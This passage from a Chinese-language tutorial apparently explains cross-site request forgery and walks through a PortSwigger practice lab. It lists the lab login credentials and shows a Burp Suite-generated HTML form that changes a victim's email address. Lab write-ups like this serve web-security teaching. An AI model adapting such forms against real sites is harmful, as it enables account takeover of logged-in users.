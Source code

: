 如果受害用户访问攻击者的网页，那么将会发生以下情况：

-   攻击者的页面将触发对易受攻击网站的 HTTP 请求
-   如果用户登录到易受攻击的网站，他们的浏览器将自动在请求中包含他们的会话 Cookie
-   易受攻击的网站将以正常方式处理请求，将其视为受害用户发出的请求并更改他们的电子邮件地址

## 漏洞示例

靶场地址：[https://portswigger.net/web-security/csrf/lab-no-defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)  
靶场介绍：本靶场的电子邮件更改功能易受 CSRF 攻击，为了解决该靶场的难题，你需要使用 CSRF 攻击的 HTML 来更改查看者的电子邮件地址并将其上传到您的漏洞利用服务器，在演示过程中您可以使用以下凭据登录自己的帐户:wiener:peter  
靶场演示：  
进入靶场会看到一个更改邮箱的操作界面：  
[![](assets/1705890866-9b56331236ff83ea481afc9697f33863.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118103626-60ca0ebc-b5aa-1.png)  
设置新邮箱并使用 burpsuite 抓包，然后在 burpsuite 中生成 CSRF 载荷  
[![](assets/1705890866-b97e87ddc5c5a05adad7e1f0ecf5558c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118103651-6fa3ee44-b5aa-1.png)  
生成载荷如下：

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a2600a5038f2056826ca6d300520025.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
